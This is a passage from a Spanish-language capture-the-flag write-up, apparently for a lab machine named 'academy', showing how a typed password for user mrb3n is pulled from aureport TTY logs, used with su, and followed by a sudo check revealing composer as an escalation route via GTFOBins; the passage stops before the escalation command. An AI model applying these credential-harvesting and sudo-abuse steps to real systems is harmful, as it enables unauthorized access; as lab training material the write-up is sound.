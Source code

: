 Si lo ejecutamos, tenemos:

```bash
cry0l1t3@academy:/dev/shm$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/2020 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
...
...
```

Bien, obtenemos unas posibles credenciales del usuario `mrb3n`, validemoslas:

```bash
cry0l1t3@academy:/dev/shm$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ 
```

Nice, pues veamos para qué queremos ser el usuario `mrb3n` en el sistema...

Después de enumerar y no enumerar lo básico :P encontramos esto:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
mrb3n@academy:/dev/shm$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
mrb3n@academy:/dev/shm$ 
```

Nos indica que podemos ejecutar `/usr/bin/composer` con permisos de administrador indicándole `sudo` al inicio, pues busquemos como podemos explotar ese binario...

Si nos vamos al siempre confiable [GTFOBins](https://gtfobins.github.io/) (que tiene un gran compilado de binarios que pueden ser usados para saltarse algunos métodos de seguridad en el sistema), encontramos [composer](https://gtfobins.github.io/gtfobins/composer/) y una manera de obtener una Shell en el sistema:
